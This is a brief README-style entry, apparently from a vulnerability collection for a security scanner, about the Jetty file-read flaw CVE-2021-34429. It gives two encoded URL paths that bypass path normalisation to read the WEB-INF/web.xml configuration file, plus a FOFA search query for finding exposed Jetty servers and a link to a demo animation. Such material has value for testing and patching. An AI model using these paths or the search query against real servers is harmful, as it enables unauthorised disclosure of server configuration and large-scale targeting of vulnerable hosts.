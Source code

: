 # Jetty File Read (CVE-2021-34429)

/%u002e/WEB-INF/web.xml and /.%00/WEB-INF/web.xml After normalization and decoding, it will become /./WEB-INF/web.xml.

FOFA **query rule**: [app="Jetty"](https://fofa.so/result?qbase64=YXBwPSJKZXR0eSI%3D)

# Demo

![img](https://raw.githubusercontent.com/xiaoheihei1107/GobyVuls/master/Jetty/Jetty_File_Read_CVE_2021_34429.gif)

